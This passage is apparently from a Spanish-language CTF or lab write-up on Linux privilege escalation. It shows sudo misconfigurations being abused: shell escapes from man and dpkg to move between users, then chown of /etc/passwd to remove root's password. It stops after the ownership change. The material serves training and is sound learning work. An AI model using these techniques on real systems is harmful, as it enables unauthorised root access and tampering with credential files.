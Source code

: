 ## Escalada de Privilegios
### Enumeracion del Sistema
```bash
# Comandos clave ejecutados
sudo -l

User www-data may run the following commands on 874cd377c371:
    (pingu) NOPASSWD: /usr/bin/man # Tenemos una via potencial de migrar a este usuario.
```

**Hallazgos Clave:**
- Binario con privilegios: `[ /usr/bin/man ]`
- Credenciales de usuario: `[ pingu ]`

### Explotacion de Privilegios
```bash
# Comando para escalar al usuario: ( pingu )
sudo -u pingu /usr/bin/man man # Primero ejecutamos este
!/bin/bash # Estando en modo manual ejecutamos esta linea y le damos enter
```

```bash
# Comando claves ejecutados
sudo -l

User pingu may run the following commands on 874cd377c371:
    (gladys) NOPASSWD: /usr/bin/nmap # Tenemos estos binarios para migrar a este usuario
    (gladys) NOPASSWD: /usr/bin/dpkg
```

**Hallazgos Clave:**
- Binario con privilegios: `[ /usr/bin/nmap ]`
- Binario con privilegios: `[ /usr/bin/dpkg ]`
- Credenciales de usuario: `[ gladys ]`

```bash
# Comando para escalar al usuario: ( gladys )
sudo -u gladys /usr/bin/dpkg -l # Primero ejecutamos este
!/bin/bash # Despues ejecutamos este.
```

```bash
# Comando claves ejecutados
sudo -l 
User gladys may run the following commands on 874cd377c371:
    (root) NOPASSWD: /usr/bin/chown
```

**Hallazgos Clave:**
- Binario con privilegios: `[ /usr/bin/chown ]`
- Credenciales de usuario: `[ root ]`

Modificamos para que ahora seamos propietarios de este archivo, el cual nos permita quitarle la: **( x )** al usuario **root** para poder conectarnos como el sin proporcionar contrasena.
```bash
# Comando para escalar al usuario: ( root )
sudo chown $(id -un):$(id -gn) /etc/passwd

# Ahora este archivo nos pertenece
-rw-r--r-- 1 gladys gladys 1292 Apr 28  2024 /etc/passwd
```
